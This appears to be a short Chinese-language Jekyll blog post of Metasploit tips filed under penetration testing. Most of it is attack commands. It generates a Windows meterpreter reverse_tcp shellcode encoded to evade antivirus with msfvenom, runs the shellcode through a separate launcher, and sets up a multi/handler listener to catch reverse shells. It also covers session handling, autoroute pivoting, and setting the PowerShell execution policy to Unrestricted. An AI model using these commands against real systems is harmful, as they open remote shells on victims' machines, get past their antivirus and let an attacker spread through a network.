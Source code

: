 ```yaml
---
layout: post
title: metasploit 使用tips
categories: 渗透测试
tag: metasploit
---
```


## payload 生成 、 分离免杀

- 生成shellcode

    `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -ex86/shikata_ga_nai -i 5 -f raw > test.c`

- shellcode 加载器

    https://github.com/clinicallyinane/shellcode_launcher/
    `shellcode_launcher.exe -i test.c`

## meterpreter

- handle

    ```shell
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set lport 4444
    set lhost 192.168.231.23
    run
    ```

- sessions 查看当前session
  - background 切换sessions 至后台
  - sessions -i 1  将session 1 调至前台

- run aotorouter -p  自动添加路由
  - post/multi/manage/autoroute自动添加路由

## powershell

- 开执行权限

    Set-ExecutionPolicy Unrestricted